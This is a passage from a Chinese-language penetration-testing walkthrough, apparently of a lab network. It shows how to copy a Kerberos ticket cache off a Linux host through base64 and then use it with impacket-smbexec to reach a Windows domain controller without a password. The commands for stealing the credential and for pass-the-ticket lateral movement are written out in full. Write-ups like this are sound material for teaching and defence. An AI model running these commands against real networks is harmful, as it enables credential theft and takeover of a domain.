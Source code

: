 票据不大，我们直接 base64 编码复制出来：

```plain
base64 /tmp/krb5cc_285400500_xkhemD | tr -d '\n'
```

[![](assets/1707953845-387d7959066123ba7254c3a80b215701.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040009-2a664906-c461-1.png)

在 kali 重新解码生成原始票据文件：

```plain
echo '刚刚拿到的编码'  | base64 -d > krb5cc_285400500_xkhemD
```

之后直接利用 impacket-smbexec 横向移动到 windows 域控制器，执行命令看看是否有问题

```plain
KRB5CCNAME='krb5cc_285400500_xkhemD'  /usr/bin/impacket-smbexec -target-ip 192.168.43.136 -dc-ip 192.168.43.136 -k  -no-pass @'ad.endlessparadox.com'
```

[![](assets/1707953845-b6890c210ddc02272e6a67925a88ca65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040023-328f24e0-c461-1.png)
